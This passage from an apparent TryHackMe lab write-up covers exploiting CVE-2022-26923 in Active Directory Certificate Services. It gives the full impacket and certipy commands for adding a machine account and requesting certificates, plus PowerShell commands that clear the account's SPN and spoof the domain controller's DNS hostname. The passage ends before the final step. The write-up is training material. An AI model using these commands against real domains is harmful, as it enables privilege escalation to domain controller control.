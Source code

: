 * now we add a new computer as our user.

```
impacket-addcomputer 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'
```

![](2025-05-31-cve-2022-26923-ad-cs-5.png)

* now we generate a new certificate for this newly added computer.

```
certipy req -u "THMPC$" -p "Password1@" -target "lundc.lunar.eruca.com" -ca LUNAR-LUNDC-CA -template Machine
```

![](2025-05-31-cve-2022-26923-ad-cs-6.png)

* again we can check and confirm if certificate is valid by requesting a TGT for the came computer account.

```
certipy auth -pfx thmpc.pfx
```

![](2025-05-31-cve-2022-26923-ad-cs-7.png)

* now lets see some important attributes for our newly created computer.

```
Get-ADComputer THMPC -properties dnshostname,serviceprincipalname
```

![](2025-05-31-cve-2022-26923-ad-cs-8.png)

* now let try to set our DNS hostname to that as same of DC.

```
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
```

![](2025-05-31-cve-2022-26923-ad-cs-9.png)

* got an error as aspected, this is because Microsoft automatically changes the SPN attribute when we set the DNS hostname same as that of corresponding to hostname (LUNDC). Since an SPN already exists for LUNDC, the command fails.
* To counter this, let’s first remove our current SPN attribute for our computer and next retry to change DNS hostname.

```
Set-ADComputer THMPC -ServicePrincipalName @{}
```

![](2025-05-31-cve-2022-26923-ad-cs-10.png)

![](2025-05-31-cve-2022-26923-ad-cs-11.png)

* this time it worked as their is no SPN set, thus it would live as it is without changing it to that of LUNDC.
* now again let check for above attributes.
